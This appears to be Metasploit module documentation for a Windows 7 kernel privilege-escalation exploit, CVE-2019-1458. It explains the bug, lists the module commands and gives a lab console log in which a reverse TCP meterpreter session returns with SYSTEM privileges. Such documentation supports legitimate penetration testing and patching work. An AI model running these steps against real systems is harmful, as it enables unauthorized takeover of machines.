 ## Vulnerable Application

This module exploits CVE-2019-1458, aka WizardOpium, a bug that occurs because a field within the tagSERVERINFO structure
at *(gpsi+0x154) was uninitialized, which allowed user mode attackers to set extra window data pointer in a
task switch window (designated by the FNID_SWITCH window class), which would otherwise only be able to be
set by the kernel. By setting this extra window data pointer, an attacker can write a limited amount of data
to an arbitrary kernel address in memory, thus providing them with an arbitrary kernel write primitive than can
be used to elevate privileges to SYSTEM.

This module has been tested against Windows 7 x64 SP1. Offsets
within the solution may need to be adjusted to work with other versions
of Windows.

## Verification Steps

1. Get a non-SYSTEM meterpreter session on Windows 7 SP1 x64
1. `use exploit/windows/local/cve_2019_1458_wizardopium`
1. `set session <session>`
1. `set payload windows/x64/meterpreter/reverse_tcp`
1. `set LHOST <LHOST>`
1. `set LPORT 5555`
1. `exploit`
1. Get a SYSTEM session

## Scenarios

### Windows 7 SP1 x64 with win32k.sys Version 6.1.7601.17514

```
msf exploit(multi/handler) > run

[*] Started bind TCP handler against 172.24.15.185:4444
[*] Sending stage (200262 bytes) to 172.24.15.185
[*] Meterpreter session 1 opened (0.0.0.0:0 -> 172.24.15.185:4444) at 2020-10-09 15:18:22 -0500

meterpreter > getuid
Server username: test-PC\test
meterpreter > privs
[-] Unknown command: privs.
meterpreter > getsystem
[-] 2001: Operation failed: This function is not supported on this system. The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
meterpreter > background
[*] Backgrounding session 1...
msf exploit(multi/handler) > use exploit/windows/local/cve_2019_1458_wizardopium
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf exploit(windows/local/cve_2019_1458_wizardopium) > show options

Module options (exploit/windows/local/cve_2019_1458_wizardopium):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   PROCESS  notepad.exe      yes       Name of process to spawn and inject dll into.
   SESSION                   yes       The session to run this module on.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.24.12.125    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 x64


msf exploit(windows/local/cve_2019_1458_wizardopium) > set SESSION 1
SESSION => 1
msf exploit(windows/local/cve_2019_1458_wizardopium) > set LPORT 6633
LPORT => 6633
msf exploit(windows/local/cve_2019_1458_wizardopium) > exploit

[*] Started reverse TCP handler on 172.24.12.125:6633
[*] Executing automatic check (disable AutoCheck to override)
[+] Triggering the exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (200262 bytes) to 172.24.15.185
[*] Meterpreter session 2 opened (172.24.12.125:6633 -> 172.24.15.185:49223) at 2020-10-09 15:19:07 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeAssignPrimaryTokenPrivilege
SeAuditPrivilege
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreatePermanentPrivilege
SeCreateSymbolicLinkPrivilege
SeCreateTokenPrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeLockMemoryPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRelabelPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTcbPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

meterpreter > sysinfo
Computer        : TEST-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > background
[*] Backgrounding session 2...
msf exploit(windows/local/cve_2019_1458_wizardopium) > sessions

Active sessions
===============

  Id  Name  Type                     Information                    Connection
  --  ----  ----                     -----------                    ----------
  1         meterpreter x64/windows  test-PC\test @ TEST-PC         0.0.0.0:0 -> 172.24.15.185:4444 (172.24.15.185)
  2         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ TEST-PC  172.24.12.125:6633 -> 172.24.15.185:49223 (172.24.15.185)

msf exploit(windows/local/cve_2019_1458_wizardopium) >
```
